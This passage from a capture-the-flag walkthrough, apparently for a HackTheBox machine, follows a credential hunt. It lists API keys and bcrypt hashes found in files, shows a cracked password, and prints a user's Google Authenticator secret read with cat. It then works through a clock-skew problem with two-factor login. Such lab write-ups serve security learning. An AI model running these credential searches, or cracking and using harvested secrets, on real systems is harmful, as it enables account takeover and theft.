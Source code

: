 ```
/usr/share/rubygems-integration/all/gems/railties-5.2.2.1/lib/rails/commands/credentials
/usr/share/rubygems-integration/all/gems/railties-5.2.2.1/lib/rails/generators/rails/credentials

/etc/chromium.d/apikeys:export GOOGLE_API_KEY="AIzaSyCkfPOPZXDKNn8hhgu3JrA62wIgC93d44k"
/etc/chromium.d/apikeys:export GOOGLE_DEFAULT_CLIENT_ID="811574891467.apps.googleusercontent.com"
/etc/chromium.d/apikeys:export GOOGLE_DEFAULT_CLIENT_SECRET="kdloedMFGdGla2P1zacGjAQh"

/var/backups/dump_2020-08-27.sql:$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO
/home/bill/blog/bd.sql:$2a$12$uhUssB8.HFpT4XpbhclQU.Oizufehl9qqKtmdxTXetojn2FcNncJW

```

Two more hashes
```
jennifer jennifer@mail.htb $2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO
bill	 bill@mail.htb	   $2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW
```

Since i found so many hashes i decided to use a smaller rockyou wordlists (the other had 14Million records)... <br>

And i found one hash
```
bill:$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW:spongebob
```

The password is accepted... but it needs a verification code ! (since i found the password i stopped the cracking)<br>

I've found a google_authenticator file in bill' home folder... Maybe its a two-factor authenticator (src:https://wiki.archlinux.org/index.php/Google_Authenticator)<br>

```
cat ~/.google_authenticator 

2UQI3R52WFCLE6JTLDCSJYMJH4 <- API KEY???
" WINDOW_SIZE 17
" TOTP_AUTH
```

To test this out i searched for a browser extension and found one <br>

It gives me codes but i keep getting an error
```
Error "Operation not permitted" while writing config
```

I couldnt figure out so i went and checked the forum
```
For those stuck at the priv esc with the error, think about what you're using. Its hard to communicate when you're out of sync with each other.
```

Since the tokens (codes) expire based on time, the clock difference between my machine and the htb machine may be causing this issue... <br>

```
SSH-SHELL
################################
cmd: timedatectl
Local time: Thu 2020-11-26 21:40:22 GMT
           Universal time: Thu 2020-11-26 21:40:22 UTC
                 RTC time: Thu 2020-11-26 21:40:22
                Time zone: Europe/London (GMT, +0000)

----------------------------[]
LH-SHELL
################################
cmd: timedatectl
               Local time: qui 2020-11-26 21:33:09 WET
```